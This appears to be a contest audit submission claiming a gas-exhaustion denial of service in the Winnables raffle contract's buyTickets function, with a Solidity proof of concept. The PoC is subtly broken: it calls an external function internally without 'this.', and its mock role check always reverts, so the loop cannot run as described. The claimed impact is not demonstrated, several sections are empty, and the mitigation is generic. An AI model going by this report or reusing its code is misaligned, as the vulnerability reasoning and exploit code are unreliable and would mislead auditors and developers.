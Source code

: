 Sour Denim Alpaca

Medium

# All gas can be exhausted  by calling buyTickets with invalid role. repeatedly

### Summary

Line: https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L448

Poc provided below to demonstrate the effect of invalid role checks leading to a potential DoS (Denial of Service) by consuming excessive gas.

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

All gas allocated to the transaction can be exhausted.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract GasExhaustion is Ownable {
    using ECDSA for bytes32;

    uint256 public constant ROLE_INVALID = 1; // Example role constant for invalid role

    // Assume this function checks the role of the signer
    function _checkPurchaseSig(
        uint256 raffleId,
        uint16 ticketCount,
        uint256 blockNumber,
        bytes calldata signature
    ) internal view {
        address signer = _getSigner(
            keccak256(
                abi.encodePacked(
                    msg.sender, 0, raffleId, ticketCount, blockNumber, msg.value
                )
            ), signature
        );

        if (!_hasRole(signer, ROLE_INVALID)) {
            revert("Unauthorized");
        }
    }

    // Mock role check function
    function _hasRole(address account, uint256 role) internal pure returns (bool) {
        return role == ROLE_INVALID ? false : true;
    }

    // Mock signature verification
    function _getSigner(bytes32 message, bytes calldata signature) internal pure returns (address) {
        return message.toEthSignedMessageHash().recover(signature);
    }

    // Function to simulate buying tickets, calling _checkPurchaseSig internally
    function buyTickets(
        uint256 raffleId,
        uint16 ticketCount,
        uint256 blockNumber,
        bytes calldata signature
    ) external payable {
        _checkPurchaseSig(raffleId, ticketCount, blockNumber, signature);
        // Additional logic for purchasing tickets could be here
    }

    // Function to exhaust gas by repeatedly calling buyTickets
    function exhaustGas(
        uint256 raffleId,
        uint16 ticketCount,
        uint256 blockNumber,
        bytes calldata signature,
        uint256 iterations
    ) external payable {
        for (uint256 i = 0; i < iterations; i++) {
            buyTickets(raffleId, ticketCount, blockNumber, signature);
        }
    }
}
```
**Explanation**
Contract Structure:

_checkPurchaseSig: Checks if the signer has a valid role. If the role is invalid, it reverts.
_hasRole: Returns false if the role is invalid, simulating the case where the role check fails.
buyTickets: Calls _checkPurchaseSig to validate the role before proceeding (dummy logic for buying tickets is included as a placeholder).
Gas Exhaustion Function:

exhaustGas: Calls buyTickets repeatedly with a specified number of iterations to exhaust gas. This simulates the case where each call reverts due to an invalid role, causing the transaction to consume gas.
**Testing**
Deploy Contract: Deploy the GasExhaustion contract to a test network.
Call exhaustGas: Use a test account to call exhaustGas with a high number of iterations to test gas exhaustion. For example, you might start with iterations = 1,000 and increase as needed.

### Mitigation

 Ensure that in a real-world scenario, your contract includes proper access controls and safeguards to avoid vulnerabilities.